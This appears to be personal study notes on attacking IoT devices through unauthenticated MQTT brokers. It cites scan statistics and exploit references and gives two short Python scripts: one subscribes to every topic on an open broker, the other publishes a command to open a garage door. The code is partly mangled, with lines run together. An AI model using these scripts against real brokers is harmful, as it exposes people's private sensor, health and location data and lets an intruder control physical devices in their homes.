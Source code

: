 # Notes on MQTT 

References:

- **Info that is used Below:**
  - [Hacking the IoT with MQTT](https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b)

- **Older Python vuln scan with shodan**

  - [Warflop/IOT-MQTT-Exploit: MQTT vulnerable with shodan (github.com)](https://github.com/Warflop/IOT-MQTT-Exploit)

- **Paper on Fuzzing with MQTT that I haven't read.**

  - [MQTT Security: A Novel Fuzzing Approach (hindawi.com)](https://www.hindawi.com/journals/wcmc/2018/8261746/)

- **Global Portscan (1883) and Vulnerability statistics**

  - [An Internet-wide (IPv4) scan of externally accessible MQTT services – VARIoT](https://www.variot.eu/2020/05/05/312/)

  

We can see that **most MQTT Servers don't even use authentication (almost 70%).** Only 11% of all hosts returned us a "Bad user name or password" code in the CONNACK packet (I wonder if they use default passwords !?).

A summary of some of the open MQTT servers found in the wild:

- Different kinds of IoT devices
- Sensors: Light and temperature values
- Fitness devices: Fitbit
- Health devices: Blood Pressure Monitors
- Location services: Owntracks (really creepy stuff!)
- Home automation kits: SmartThings (Samsung)

## Code

```bash
# deps ### Test if that's right pypi

pip3 install paho.mqtt.client
```

You can connect to a server and subscribe to all topics with a simple script:

```python
import paho.mqtt.client as mqttdef on_connect(client, userdata, flags, rc):
   print "[+] Connection successful"
   client.subscribe('#', qos = 1)        # Subscribe to all topics
   client.subscribe('$SYS/#')            # Broker Status (Mosquitto)def on_message(client, userdata, msg):
   print '[+] Topic: %s - Message: %s' % (msg.topic, msg.payload)client = mqtt.Client(client_id = "MqttClient")
client.on_connect = on_connect
client.on_message = on_message
client.connect('SERVER IP HERE', 1883, 60)
client.loop_forever()
```



![image](https://user-images.githubusercontent.com/64992493/133946955-3c272d3b-6530-421d-8b08-f59fecb4c7b8.png)


![image](https://user-images.githubusercontent.com/64992493/133946963-01bdb7b1-5a08-4e87-a367-b54dab975c75.png)


A Frightening security risk appears when an attacker is able to control IoT devices by publishing commands to a MQTT topic (e.g., turn off the lights and open the garage door). A simple python script to open a fictitious garage door is shown here:

```python
import paho.mqtt.client as mqttdef on_connect(client, userdata, flags, rc):
   print "[+] Connection success"client = mqtt.Client(client_id = "MqttClient")
client.on_connect = on_connect
client.connect('IP SERVER HERE', 1883, 60)
client.publish('smarthouse/garage/door', "{'open':'true'}")
```

